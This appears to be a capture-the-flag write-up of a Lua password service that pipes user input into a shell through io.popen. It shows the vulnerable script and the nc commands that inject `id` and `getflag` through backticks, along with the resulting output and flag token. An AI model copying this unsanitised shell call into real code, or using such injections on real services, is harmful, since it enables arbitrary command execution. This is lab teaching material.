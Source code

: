 There is a Lua script:

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end

  client:close()
end
```

\- The program already runs. It creates a TCP server and listen on port 5151. 
It ask for a password and hash it with the sha1sum command in a subprocess.
It then takes the 40 first character of the hashed password and check if it's equal to f05d1d066fb246efe0c6f7d095f909a7a0cf34a0. So we have to crack the password.

\- Looking into a rainow table like crackstation.com and we see that the hash is a known hash into the table. -> NotSoEasy

\- It was actually a rabbit hole. After few research, we see that lua is easily vulnerable to command injection with unverified user input. We can execute command like this:

```
> nc localhost 5151                                                 Password: `id` > /tmp/flag
> cat /tmp/flag
uid=3011(flag11) gid=3011(flag11) groups=3011(flag11),1001(flag)

> nc localhost 5151                                                 Password: `getflag` > /tmp/flag
> cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

```